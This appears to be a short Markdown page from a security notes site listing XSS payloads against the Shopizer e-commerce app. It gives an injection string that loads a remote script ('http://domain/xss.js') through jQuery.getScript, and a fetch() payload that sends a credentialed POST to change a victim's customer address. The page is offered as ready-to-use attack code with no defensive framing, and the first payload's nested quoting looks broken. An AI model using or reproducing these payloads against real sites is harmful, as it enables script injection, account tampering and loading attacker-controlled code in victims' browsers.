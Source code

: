 ```yaml
---
title: Common Payload for XSS
layout: default
parent: XSS
has_children: false
nav_order: 6
---
```


1. Based on Shopizer example, only for app with JQuery (base64 encode the entire thing inside single quote):
```
'+btoa(eval(atob('jQuery.getScript('http://domain/xss.js')')))+'
```

2. How to send a POST request through XSS (you need to first study how the POST request work and change accordingly):
```
 fetch('http://shopizer:8080/shop/customer/updateAddress.html',{
   method: 'POST',
   mode: 'same-origin',
   credentials: 'same-origin',
   headers: {
     'Content-Type':'application/x-www-form-urlencoded'
   }, 
   body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
})
```